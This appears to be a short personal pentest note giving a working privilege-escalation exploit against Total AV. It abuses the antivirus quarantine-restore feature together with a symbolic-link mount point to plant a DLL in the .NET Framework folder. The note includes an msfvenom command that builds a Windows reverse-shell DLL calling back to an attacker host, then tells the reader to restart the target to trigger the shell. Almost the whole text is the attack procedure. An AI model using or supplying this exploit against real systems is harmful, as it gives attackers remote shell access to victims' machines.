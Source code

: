 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

https://github.com/googleprojectzero/symboliclink-testing-tools/releases/tag/v1.0

Download Release.7z

```bash - kali
msfvenom -p windows/shell_reverse_tcp LHOST=$KALI LPORT=443 -f dll > version.dll
```

Transfer version.dll and CreateMountPoint.exe to victim.

Make a folder in Windows, called mount.  

```command prompt - windows
cd /
```

```command prompt - windows
mkdir mount
```

Copy the version.dll file into it.

In Total AV, go to Antivirus > Quick Scan > Custom Scan > Add Folder > mount > Start Custom Scan.

Once version.dll is found, click "resolve", leave action as "Quarantine".

Click the "Remove Threat" button.

Go to Quarantine and confirm version.dll is there.

In PowerShell, navigate to Downloads folder.

```powershell - windows
.\CreateMountPoint.exe "C:\mount" "C:\Windows\Microsoft.NET\Framework\v4.0.30319\"
```

In Total AV, click the check box for version.dll and hit the Restore button.

![[rlwrap]]

Restart the Windows target to trigger the reverse shell.
